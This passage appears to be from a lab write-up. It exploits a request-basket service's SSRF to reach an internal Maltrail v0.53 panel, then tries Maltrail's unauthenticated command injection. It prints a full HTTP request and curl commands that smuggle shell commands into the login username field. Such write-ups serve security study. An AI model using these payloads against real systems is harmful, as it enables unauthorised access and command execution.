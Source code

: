 > It is important to remember what attacks can you do using SSRF; and port scanning is one of it.

> Earlier the port 80 and 8338 are cannot be accessed. 
> Trying the ports in the attack vector.

```
POST /api/baskets/rei3 HTTP/1.1
Host: 10.129.248.192:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: 2wGpGuQz4Uy4gqgz7xGv7Ib6PokvYkKkF9GA9exP-k71
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://10.129.248.192
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

{
    "forward_url": "http://127.0.0.1:8338", # Localhost
    "proxy_response": true, # Must be true
    "insecure_tls": true,
    "expand_path": true,
    "capacity": 250
}
```

Note that `proxy_response` must be true to view the response when accessed.
After forwarding the response of `http://localhost:8338` to the basket in `http://10.129.248.192:55555/rei3` it can now be viewed by accessing the url.

Checking it again if the version is vulnerable.
```
http://10.129.248.192:55555/rei3

Maltrail (v0.53)
```

<br>

### Finding user creds

Unauthenticated OS Command Injection in stamparm/maltrail in stamparm/maltrail
https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

Proof of Concept
```shell
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

It's time to use the exploit.
```shell
curl 'http://10.129.248.192:55555/rei3/login' --data 'username=;`id`'
> Using `id` returns Login Failed
```
